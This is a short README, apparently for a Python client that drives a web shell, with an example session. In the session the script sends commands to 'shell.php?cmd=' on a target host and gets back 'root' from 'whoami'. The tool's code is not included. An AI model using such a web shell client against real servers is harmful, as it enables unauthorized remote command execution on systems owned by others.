 # Python webshell

Webshell interface

## Example usage

```
> python3 webshell.py "http://target/shell.php?cmd="
>> whoami
root

>> exit
```
